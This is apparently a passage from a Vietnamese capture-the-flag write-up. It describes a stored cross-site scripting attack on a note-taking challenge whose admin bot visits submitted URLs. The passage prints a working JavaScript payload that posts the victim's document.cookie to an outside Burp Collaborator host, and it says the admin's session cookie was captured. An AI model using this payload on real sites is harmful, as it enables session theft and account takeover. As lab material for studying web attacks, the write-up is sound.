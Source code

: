 - Tôi đã viết một payload như sau:

```js
<sCript>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://burp.collaborator.client', true); xhr.send('cookie='+document.cookie);</sCript>
```

- Thực hiện payload lên `Creat note` copy url và gán vào `Bot` ta được kết quả như sau.

![](./img_WU/6.png)

- Và ta đã lấy được cookie sessionid của admin. Từ đấy, ta sẽ có thể tìm kiếm flag.

![](./img_WU/7.png)
